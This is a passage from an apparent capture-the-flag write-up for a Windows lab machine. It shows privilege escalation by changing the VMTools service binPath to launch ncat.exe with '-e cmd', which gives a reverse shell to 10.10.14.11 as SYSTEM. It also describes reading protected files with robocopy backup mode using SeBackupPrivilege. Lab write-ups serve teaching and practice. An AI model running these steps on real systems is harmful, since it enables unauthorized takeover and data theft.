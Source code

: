 ```
$sudo nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.11] from (UNKNOWN) [10.10.11.108] 60966
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```
we have got the shell as administrator but after 30 seconds, the service times out, and returns an error message and the shell terminates.

### STABLE SHELL AS ADMINISTRATOR

> If we have the service binary set to cmd.exe and have it start ncat.exe,
the ncat.exe process will continue running even after cmd.exe is killed.
This is because when cmd.exe starts ncat.exe, it creates a new process that is 
separate from the cmd.exe process. When the service fails to start in a service way,
the cmd.exe process is killed but the ncat.exe process is still running as it was started by cmd.exe process, it is not dependent on it.

```
*Evil-WinRM* PS C:\Users\svc-printer\Desktop> sc.exe config VMTools binPath="C:\windows\system32\cmd.exe /c C:\Users\svc-printer\Desktop\ncat.exe -e cmd 10.10.14.11
[SC] ChangeServiceConfig SUCCESS
*Evil-WinRM* PS C:\Users\svc-printer\Desktop> sc stop VMTools
*Evil-WinRM* PS C:\Users\svc-printer\Desktop> sc.exe start VMTools
```

```
nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.11] from (UNKNOWN) [10.10.11.108] 61106
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

### METHOD 2: FILE READ

Since `svc-printer` has both `SeBackupPrivilege` and `SeRestorePrivilege` privilege we can use `robocopy` to read files.

> Non-admin user can use Robocopy to copy files and directories that are normally only accessible by administrators, if they are granted the SeBackupPrivilege and SeRestorePrivilege.
The easiest way is to use the /B option to run Robocopy in "backup mode" which tells Robocopy to use the Volume Shadow Copy Service (VSS) to create a shadow copy of the volume being copied, and thus allows Robocopy to access files that are otherwise locked or in use
